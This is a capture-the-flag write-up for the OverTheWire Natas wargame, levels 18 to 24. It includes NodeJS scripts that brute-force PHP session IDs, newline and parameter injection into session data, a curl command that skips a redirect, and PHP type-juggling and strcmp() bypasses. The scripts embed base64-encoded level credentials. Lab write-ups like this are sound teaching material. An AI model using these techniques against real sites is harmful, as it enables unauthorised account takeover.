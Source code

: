 ```yaml
---
layout: post
title: natas-writeup - lv18-lv24
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 18 to 24."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 18 ##

In this level we're given access to the source behind `index.php`. I originally thought there might be something in the way user inputs were compared but no luck. 2 things caught my attention - the first being a comment on the maximum number of sessions: `$maxid = 640; // 640 should be enough for everyone `, followed by the snippet below:

{% highlight javascript %}
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true; 
{% endhighlight %}

Which seems to indicate some sessions would already have the `admin` flag set - so why not iterate through all 640 of them and see if the flag is set correctly somewhere?

I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:

{% highlight javascript %}
const got = require('got');

const sessionIds = [...Array(641).keys()]; // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas18.natas.labs.overthewire.org/index.php?debug', {                                             headers: {                                                                                                         'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (resp.body.includes('You are an admin')) {
          console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }
      });                                                                                                        });
{% endhighlight %}

And soon enough:

```
sessionId: 119 + <html>
<head>
...
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
...
```

## Level 19 ##

We're told the code for this level is similar to the previous one, but that the format of session ID (`PHPSESSID`) differs.

Using Burp's sequencer I gathered close to 10,000 tokens. A quick run through `sort | uniq` led to a list of 640 unique tokens. I ran through those fairly quickly with the below:

{% highlight javascript %}
const got = require('got');
const fs = require('fs');

const sessionIds = fs.readFileSync('natas19.tokens.uniq','utf8').split('\r\n'); // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas19.natas.labs.overthewire.org/index.php?debug', {
    headers: {
      'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (sessionId && !resp.body.includes('regular user')) {                                                                   console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }                                                                                                                     });
});
{% endhighlight %}

But none of them worked - something wasn't right. From looking at the tokens, it was clear there was a part that was static: `2d616263`. This turned out to be hex for `-abc`, `abc` being the username I originally tried to log in with!

Essentially I could re-use the code for natas18, but would need to append `-admin` to each session id and convert it to hex instead. A few tries later, we're in!

For the record the session was derived as: `const s = Buffer.from(`${sessionId}-admin`).toString('hex');`

## Level 20

This one is a little different from the previous 2 given the session ID seems pretty random. A quick look at the code however reveals a red flag. The `mywrite` function:


{% highlight php %}
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    } 
{% endhighlight %}

And `myread`:

{% highlight php %}
   foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1]; 
{% endhighlight %}

Whatever we pass in as the username will be written to file and read back as key/value pairs in the `$_SESSION` object. So if we could add `admin 1` as an entry, we'd be home free. In other words, we need to add a new line to get the `mywrite` function to essentially write 2 entries.

Modifying the request to `foo%0Aadmin%201` (with `\n` and `(space)` URL-encoded) does just that - though note I had to modify the request directly in Burp vs through the textbox for this to work.

## Level 21

We're presented with a page that states it is co-located with [natas21-experimenter](http://natas21-experimenter.natas.labs.overthewire.org/index.php). The code on the main page indicates we're back to figuring out how to stuff `admin=1` in `$_SESSION` - but there's nothing on this page that would allow us to change that.

The other page however (natas21-experimenter) allows user input - lots of it. Looking at the code, the following snippet jumps out:

{% highlight php %}
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
} 
{% endhighlight %}

We're free to add new parameters to `$_REQUEST` when submitting changes and those will be set in `$_SESSION` - yay!. Adding `&admin=1` to the `POST` parameters does the trick. However, this isn't the site we need those on.

Instead we grab the referer header along with the cookies and pass those back to the original site:

```
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc5dfb9ecd6e2ed04913757fe15630eb81548476605; PHPSESSID=d0vhsull9qme8gi98ic81etna5
```

This tricks it into re-using the session we created for `natas21-experimeter` - which contains `admin=1`. Done!

## Level 22

The source tells us the credentials for natas23 will only be displayed if `if(array_key_exists("revelio", $_GET))` - but the snippet at the top strips all our parameters (the `header` function is essentially a redirect).:

{% highlight php %}
if(array_key_exists("revelio", $_GET)) {
        // only admins can reveal the password
        if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
                header("Location: /");
        }
}
{% endhighlight %}

If we were to view this in say Firefox, the browser would automatically follow the redirect to `/`. But with `curl`, which doesn't follow redirects by default, it's easy: `curl -v --user natas22:<password_for_natas22> http://natas22.natas.labs.overthewire.org/?revelio -o - | grep Password`

## Level 23

The snippet of interest is as below:

{% highlight php %}
if(array_key_exists("passwd",$_REQUEST)){
        if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
                echo "<br>The credentials for the next level are:<br>";
                echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else{
                echo "<br>Wrong!<br>";
        }
}
{% endhighlight %}

`strstr` returns the first occurrence matching the string. The part that's interesting however is the numeric comparison `$_REQUEST["passwd"] > 10`. This being PHP, the way it 'converts' a string to a digit is by stripping all characers apart from numeric ones. So if `passwd=20plussomerandomtext`, in a string context this would be `20`. Funky heh?

## Level 24

This level highlights some more PHP oddities:

{% highlight php %}
f(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
{% endhighlight %}

`strcmp` is known to behave oddly when the first argument is an array (see the [official documentation](https://www.php.net/manual/en/function.strcmp.php), in the comments section). Try if for yourself [here](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_func_string_strcmp)! Passing in `?passwd[]=foo` as an argument does the trick.


